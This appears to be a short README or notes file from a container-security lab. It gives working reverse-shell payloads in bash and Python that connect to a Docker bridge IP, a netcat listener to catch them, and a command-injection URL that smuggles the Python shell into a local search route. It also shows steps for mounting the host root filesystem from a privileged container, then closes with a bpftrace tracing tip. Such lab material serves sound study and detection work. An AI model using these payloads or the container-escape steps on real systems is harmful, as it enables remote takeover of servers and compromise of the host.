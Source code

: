 # run netcat to capture incomming reverse shell
nc -lvp <port>

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

# Test exploit commands

## The exploit, run from a vulnerable input prompt
```bash
bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
```

## Python
```bash
export RHOST="172.17.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### Full example using the search route
```
localhost:5000/search?q=images||export RHOST="172.17.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Mounting rootFS in privilege container
```
cat /proc/cmdline
findfs UUID=b4622f81-d047-4c8b-86ea-a7dcfb3dd58f
>/dev/sda3
mkdir -p /mnt-test && mount /dev/sda3 /mnt-test
cd /mnt-test/var/lib/docker

```


# Ebpf one liners with bpftrace
- list trace points
    bpftrace -l 'tracepoint:syscalls:sys_enter_*' 